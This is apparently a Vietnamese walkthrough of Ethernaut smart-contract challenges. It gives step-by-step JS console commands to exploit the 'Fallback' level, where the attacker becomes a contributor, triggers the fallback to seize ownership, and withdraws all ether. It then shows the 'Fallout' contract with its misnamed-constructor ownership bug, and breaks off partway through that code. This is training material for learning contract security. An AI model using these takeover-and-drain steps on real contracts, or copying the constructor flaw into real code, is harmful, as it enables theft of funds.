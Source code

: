 ### Fallback Solution

- Ở bài này ta sẽ học được về  `fallback function`. Đây là một hàm đặc biệt trong smart contract, nó không có tên hàm và được sử dụng khi: contract nhận ether, hoặc khi có ai đó gọi hàm không có trong contract hoặc tham số không đúng. 
- Ở đây có một sự đánh lừa nhẹ: hàm `Fallback` không phải là fallback function (dù tên hàm là *Fallback*), mà chính `function() payable public` mới là fallback function. Từ đó ta có cách khai thác như sau: đầu tiên gọi function `contribute()` với một giá trị nhỏ hơn 0.001 để  trở thành contributor

```js
await contract.contribute({value:toWei(0.0001)})
```

- Kiểm tra xem đã trở thành contributor chưa, nếu kết quả > 0 thì có nghĩa là ta đã trở thành contributor rồi

```js
await contract.getContribution().then(x => x.toNumber())
```

- Sau đó send ether tới contract để kích hoạt fallback, khi đó ta sẽ trở thành owner

```js
contract.send(1)
```

- Kiểm tra xem đã trở thành owner chưa

```js
await contract.owner()
```

- Rút toàn bộ tiền khỏi contract

```js
contract.withdraw()
```

- Submit & all done!

## 2. Fallout

**Mục tiêu**: Chiếm quyền owner

```js
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
```